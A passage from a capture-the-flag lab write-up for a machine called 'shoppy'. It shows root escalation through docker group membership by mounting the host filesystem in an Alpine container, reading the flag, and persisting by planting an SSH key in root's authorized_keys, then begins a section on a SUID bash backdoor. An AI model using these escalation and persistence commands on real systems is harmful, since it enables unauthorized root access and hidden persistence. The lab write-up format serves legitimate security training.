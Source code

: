     deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine chroot /mnt sh
    # ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
    

#### Read Flag

From here I can read `root.txt`:

    
    
    # cat /root/root.txt
    5c6e2d67************************
    

### Shell

#### SSH

The simplest way to get a shell as root is to drop my public SSH key into an
`authorized_keys` file for root:

    
    
    # mkdir /root/.ssh
    # echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys 
    # chmod 600 /root/.ssh/authorized_keys
    

Now I can connect with SSH:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@shoppy.htb
    Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    root@shoppy:~#
    

#### SUID bash

A perhaps quieter way is to make `bash` SetUID:
